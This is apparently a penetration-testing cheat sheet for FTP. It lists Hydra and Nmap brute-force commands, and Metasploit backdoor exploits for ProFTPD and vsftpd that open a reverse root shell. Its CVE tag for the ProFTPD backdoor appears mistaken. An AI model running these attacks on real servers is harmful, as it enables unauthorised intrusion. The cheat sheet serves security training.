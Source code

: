 # FTP

**FTP (File Transfer Protocol)**  
**Description**: Unencrypted protocol for transferring files between client and server
**Ports**: TCP 21 (command), TCP 20 (data)	  
**Known Vulnerabilities**: Anonymous login (misconfiguration), Brute-force attacks, Cleartext credential sniffing, FTP Bounce Attack (CVE-1999-0205)

# Basic FTP Usage

```shell
ftp <target_IP> <port_number>
# Opens an FTP connection to the target on the specified port.
# Commands inside ftp: ls, cd, get <file_name>, put <file_name>, exit

ftp <target> # Anonymous login
# When prompted, enter anonymous as both the username and password for login.
```

<br>

# Enumeration with Metasploit and Nmap

```shell
use auxiliary/scanner/ftp/ftp_version
# Scans the FTP service to identify version and banner information.

use auxiliary/scanner/ftp/anonymous
# Checks if the FTP server allows anonymous login.

use auxiliary/scanner/ftp/ftp_login
# Performs brute-force login attempts on the FTP service using user/password lists.

nmap --script ftp-anon -p 21 <target_IP>
# Checks if the FTP server allows anonymous login.

nmap --script ftp-brute --script-args userdb=/root/users -p 21 <target_IP>
# Performs brute-force attack on FTP using a list of usernames.
```

<br>

# Brute-Force with Hydra and Nmap

```shell
hydra -L <user_wordlists> -P <password_wordlists> ftp://<target_IP> -t 4
# Brute-forces FTP login with 4 parallel connections.

hydra -L <user_wordlists> -P <password_wordlists> ftp://<target_IP>:<port>
# Same as above, but specifies a custom FTP port.

hydra -L <user_wordlists> -P <password_wordlists> <target_IP> ftp
# Alternative syntax for brute-forcing FTP without URL format.

echo "sysadmin" > users
# Writes "sysadmin" to the file users, replacing its contents.

nmap --script ftp-brute --script-args userdb=/root/users -p 21 <target_IP>
# Brute-forces FTP usernames from the specified file using Nmap.
```

<br>

# FTP Vulnerability Discovery

```shell
nmap -sV -p 21 --script ftp-proftpd-backdoor <target_IP>
# Checks for a known ProFTPD backdoor vulnerability (CVE-2010-4221).

nmap --script vuln -p 21 <target_IP>
# Runs vulnerability scripts against FTP to detect common issues.

searchsploit ProFTPD
# Searches Exploit-DB for known ProFTPD vulnerabilities based on the detected version.
```

<br>

# Exploiting FTP Vulnerabilities

```shell
use exploit/unix/ftp/proftpd_133c_backdoor
# Exploits a backdoor in ProFTPD 1.3.3c (CVE-2010-4221) to gain a remote root shell.
# Triggered by sending a crafted command to the FTP server.
set payload cmd/unix/reverse
set RHOSTS <target_IP>
set LHOST <local_IP>

use exploit/unix/ftp/vsftpd_234_backdoor
# Exploits a backdoor in vsftpd 2.3.4 that opens a shell on port 6200 after a smiley :) username login attempt.
# Vulnerable version: vsftpd 2.3.4 (intentionally backdoored).

use exploit/unix/ftp/proftpd_modcopy_exec
# ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)
# Exploits the mod_copy module in ProFTPD to copy files from or to any location on the server.
# Allows remote code execution by writing a malicious file into a web-accessible directory.
# Set the variables in msfconsole for RHOSTS , LHOST , and SITEPATH
```
